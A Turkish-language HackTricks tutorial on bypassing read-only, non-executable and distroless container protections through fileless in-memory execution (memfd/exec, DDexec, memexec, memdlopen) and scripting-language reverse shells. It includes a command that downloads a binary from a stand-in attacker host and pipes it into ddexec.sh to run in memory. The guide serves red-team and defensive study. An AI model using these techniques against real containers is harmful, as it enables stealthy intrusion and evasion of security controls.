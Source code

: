 # Dosya Sistemi Korumalarını Atlatma: Salt Okunur / Çalıştırılamaz / Distroless

<details>

<summary><strong>AWS hackleme konusunda sıfırdan kahraman olmaya kadar öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Kırmızı Takım Uzmanı)</strong></a><strong> ile!</strong></summary>

HackTricks'ı desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamını görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARI**]'na göz atın(https://github.com/sponsors/carlospolop)!
* [**Resmi PEASS & HackTricks ürünleri**]'ni edinin(https://peass.creator-spring.com)
* [**The PEASS Ailesi**]'ni keşfedin(https://opensea.io/collection/the-peass-family), özel [**NFT'lerimiz**]'in koleksiyonu
* **Katılın** 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** takip edin**.
* **Hacking püf noktalarınızı paylaşarak** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına PR göndererek.

</details>

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Eğer **hacking kariyeri**ne ilgi duyuyorsanız ve hacklenemez olanı hacklemek istiyorsanız - **işe alıyoruz!** (_akıcı şekilde yazılı ve konuşulan Lehçe gereklidir_).

{% embed url="https://www.stmcyber.com/careers" %}

## Videolar

Aşağıdaki videolarda bu sayfada bahsedilen teknikleri daha detaylı açıklanmış şekilde bulabilirsiniz:

* [**DEF CON 31 - Gizlilik ve Kaçınma için Linux Bellek Manipülasyonu Keşfi**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**DDexec-ng ve bellek içi dlopen() ile Gizli Sızıntılar - HackTricks Takip 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## salt okunur / çalıştırılamaz senaryo

Özellikle konteynerlerde **salt okunur (ro) dosya sistemi koruması** ile donatılmış linux makineleri bulmak artık daha yaygın hale gelmektedir. Bu, salt okunur dosya sistemiyle bir konteyner çalıştırmak için `securitycontext` içinde **`readOnlyRootFilesystem: true`** ayarlamak kadar kolaydır:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

Ancak, dosya sistemi salt okunur olarak bağlanmış olsa bile, **`/dev/shm`** hala yazılabilir olacaktır, bu yüzden diske bir şey yazamayacağımızı düşünmek yanıltıcı olacaktır. Bununla birlikte, bu klasör **çalıştırılamaz koruması ile bağlanacaktır**, bu nedenle buraya bir ikili dosya indirirseniz **onu çalıştıramayacaksınız**.

{% hint style="warning" %}
Kırmızı takım bakış açısından, bu, sistemde zaten olmayan ikili dosyaları indirip çalıştırmayı **karmaşık hale getirir** (örneğin, `kubectl` gibi arka kapılar veya sayıcılar).
{% endhint %}

## En Kolay Atlatma: Betikler

İkili dosyaları belirttiğimi unutmayın, **yorumlayıcı makinede mevcutsa herhangi bir betiği** çalıştırabilirsiniz, örneğin `sh` yüklüyse bir **kabuk betiği** veya `python` yüklüyse bir **python betiği**.

Ancak, bu, ikili dosya arka kapınızı veya çalıştırmanız gerekebilecek diğer ikili araçları çalıştırmak için yeterli değildir.

## Bellek Atlatmaları

Bir ikili dosyayı çalıştırmak istiyorsanız ancak dosya sistemi buna izin vermiyorsa, bunu yapmanın en iyi yolu, **korumaların orada uygulanmadığı bellekten çalıştırmaktır**.

### FD + exec syscall atlatma

Makinede **Python**, **Perl** veya **Ruby** gibi güçlü betik motorlarına sahipseniz, ikili dosyayı bellekten çalıştırmak için indirebilir, onu bir bellek dosya tanımlayıcısında saklayabilirsiniz (`create_memfd` syscall), bu korumalar tarafından korunmayacak ve ardından bir **`exec` syscall** çağırarak **fd'yi çalıştırılacak dosya olarak belirtebilirsiniz**.

Bunun için kolayca [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec) projesini kullanabilirsiniz. Bir ikili dosya geçirerek, onu **b64 kodlanmış ve şifrelenmiş** bir şekilde içeren bir betik oluşturacak ve `create_memfd` syscall'i çağırarak oluşturulan bir **fd** içinde **çözümlemek ve sıkıştırmak** için talimatlarla birlikte belirtilen dilde bir betik oluşturacaktır ve onu çalıştırmak için **exec** syscall'i çağırır.

{% hint style="warning" %}
Bu, PHP veya Node gibi diğer betik dillerinde çalışmaz çünkü bir betikten **ham syscalls** çağırmak için herhangi bir **varsayılan yol** yoktur, bu nedenle `create_memfd`'yi çağırmak için **bellek fd'si** oluşturulamaz.
 
Ayrıca, `/dev/shm` içinde bir dosya ile bir **düzenli fd** oluşturmak çalışmayacaktır, çünkü **çalıştırılamaz koruma** uygulanacağından çalıştırmanıza izin verilmeyecektir.
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec), kendi işleminizin **`/proc/self/mem`**'ini üzerine yazarak **belleğinizi değiştirmenizi** sağlayan bir tekniktir.

Bu nedenle, işlem tarafından yürütülen derleme kodunu kontrol ederek, bir **shellcode** yazabilir ve işlemi **herhangi bir keyfi kodu çalıştırmak üzere "değiştirebilirsiniz"**.

{% hint style="success" %}
**DDexec / EverythingExec**, kendi **shellcode**'unuzu veya **bellekten herhangi bir ikili dosyayı** yüklemenize ve **çalıştırmanıza izin verecektir**.
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
### MemExec

[**Memexec**](https://github.com/arget13/memexec), DDexec'in doğal bir sonraki adımıdır. Herhangi bir **farklı ikili dosyayı çalıştırmak istediğinizde DDexec'i yeniden başlatmanıza gerek kalmadan, sadece memexec shellcode'u DDexec tekniği aracılığıyla çalıştırabilir ve ardından **bu deamon ile iletişim kurarak yüklemek ve çalıştırmak için yeni ikili dosyaları geçirebilirsiniz**.

**Memexec'i kullanarak PHP ters kabuk'tan ikili dosyaları çalıştırmak için bir örnek** [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php) adresinde bulunabilir.

### Memdlopen

DDexec'e benzer bir amaçla, [**memdlopen**](https://github.com/arget13/memdlopen) tekniği, daha sonra bunları çalıştırmak için belleğe ikili dosyaları yüklemenin **daha kolay bir yolunu** sağlar. Bağımlılıkları olan ikili dosyaları yüklemeye bile izin verebilir.

## Distroless Atlatma

### Distroless Nedir

Distroless konteynerler, yalnızca belirli bir uygulamayı veya hizmeti çalıştırmak için gerekli olan **en temel bileşenleri** içerir; kütüphaneler ve çalışma zamanı bağımlılıkları gibi, ancak bir paket yöneticisi, kabuk veya sistem yardımcı programları gibi daha büyük bileşenleri hariç tutar.

Distroless konteynerlerin amacı, gereksiz bileşenleri ortadan kaldırarak konteynerlerin saldırı yüzeyini **azaltmak** ve istismar edilebilecek güvenlik açıklarının sayısını **en aza indirmektir**.

### Ters Kabuk

Distroless konteynerlerde genellikle **`sh` veya `bash`** gibi düzenli bir kabuk bulamayabilirsiniz. Ayrıca, `ls`, `whoami`, `id` gibi ikili dosyaları da bulamayacaksınız... genellikle bir sistemde çalıştırdığınız her şeyi bulamazsınız.

{% hint style="warning" %}
Bu nedenle, genellikle yaptığınız gibi bir **ters kabuk** alamayacak veya sistemde **numaralandıramayacaksınız**.
{% endhint %}

Ancak, ele geçirilen konteyner örneğin bir flask web çalıştırıyorsa, o zaman python yüklüdür ve bu nedenle bir **Python ters kabuk** alabilirsiniz. Node çalışıyorsa, bir Node ters kabuk alabilirsiniz ve aynı şey çoğu **betik dili** için geçerlidir.

{% hint style="success" %}
Betik dili kullanarak dilin yeteneklerini kullanarak **sistemi numaralandırabilirsiniz**.
{% endhint %}

Eğer **`read-only/no-exec`** korumaları yoksa, ters kabuğunuzu kullanarak dosya sistemine **ikili dosyalarınızı yazabilir** ve **çalıştırabilirsiniz**.

{% hint style="success" %}
Ancak, bu tür konteynerlerde genellikle bu korumalar bulunacaktır, ancak bunları atlatmak için **önceki bellek yürütme tekniklerini kullanabilirsiniz**.
{% endhint %}

**RCE zafiyetlerini kullanarak bazı betik dillerinden ters kabuklar almak ve bellekten ikili dosyaları çalıştırmak için örnekler** [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE) adresinde bulunabilir.

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Eğer **hacking kariyeri** ile ilgileniyorsanız ve hacklenemez olanı hacklemek istiyorsanız - **işe alıyoruz!** (_akıcı şekilde yazılı ve konuşulan Lehçe gereklidir_).

{% embed url="https://www.stmcyber.com/careers" %}

<details>

<summary><strong>Sıfırdan kahraman olmak için AWS hackleme öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklam görmek veya HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Family'yi**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuzu
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın veya bizi Twitter'da 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)'ı **takip edin**.
* **Hacking püf noktalarınızı göndererek HackTricks ve HackTricks Cloud** github depolarına PR'lar göndererek **hacking püf noktalarınızı paylaşın**.

</details>
